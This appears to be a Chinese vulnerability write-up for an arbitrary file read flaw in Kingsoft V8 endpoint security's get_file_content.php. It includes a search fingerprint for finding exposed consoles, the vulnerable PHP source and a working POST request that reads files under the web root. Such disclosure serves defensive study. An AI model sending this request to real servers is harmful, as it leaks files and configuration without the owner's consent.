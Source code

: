 # 金山 V8 终端安全系统 get_file_content.php 任意文件读取漏洞

# 金山 V8 终端安全系统 get_file_content.php 任意文件读取漏洞

## 漏洞描述

金山 V8 终端安全系统 存在任意文件读取漏洞，攻击者可以通过漏洞下载服务器任意文件

## 漏洞影响

```
金山 V8 终端安全系统
```

## 网络测绘

```
title="在线安装-V8+终端安全系统Web控制台"
```

## 漏洞复现

登录页面

![image-20220525150449778](/images/202205251504895.png)

存在漏洞的文件`/Console/receive_file/get_file_content.php`

```
<?php  
  if(stripos($_POST['filepath'],"..") !== false) {
    echo 'no file founggd';
    exit();
  }
  ini_set("open_basedir", "../");
  $file_path = '../'.iconv("utf-8","gb2312",$_POST['filepath']);
  if(!file_exists($file_path)){
    echo 'no file founggd';
    exit();
  }  

  $fp=fopen($file_path,"r");  
  $file_size=filesize($file_path); 

  $buffer=5024;  
  $file_count=0;  

  while(!feof($fp) && $file_count<$file_size){  
    $file_con=fread($fp,$buffer);  
    $file_count+=$buffer;  
    echo $file_con;  
  }  
  fclose($fp);  
?>
```



文件中没有任何的过滤 通过 filepaht 参数即可下载任意文件

由于不能出现 `..` ，所以只能读取web目录下的文件

```
POST /receive_file/get_file_content.php

filepath=login.php
```

![image-20220525150700239](/images/202205251507315.png)

